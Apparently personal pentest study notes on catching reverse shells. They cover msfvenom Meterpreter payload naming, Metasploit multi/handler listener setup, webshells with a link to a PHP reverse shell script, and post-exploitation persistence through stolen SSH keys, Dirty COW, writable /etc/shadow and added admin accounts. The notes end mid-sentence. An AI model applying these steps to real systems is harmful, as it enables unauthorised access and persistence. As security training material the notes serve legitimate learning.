 staged payload have forward slashes "/" : windows/x64/meterpreter/reverse_tcp

msfvenom --list payloads : to list all msfvenom payloads and use grep with it as per your requirement 

---------

Metasploit : multi/handler

1. open msfconsole 

2. use multi/handler

3. show options 

4. set : 	set PAYLOAD <payload>
			set LHOST <listen-address>
			set LPORT <listen-port>

5. "exploit" to start the listener , use -j to background it 

use sessions -i to interact with a session 

--------

Webshells : 


There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.


resource : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

---------

got a shell , what next 

 SSH keys stored at /home/<user>/.ssh are often an ideal way to do this. use ssh private keys to have better persistence over taget 

 	 Some exploits will also allow you to add your own account. In particular something like Dirty C0w or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods

The syntax for this is as follows:
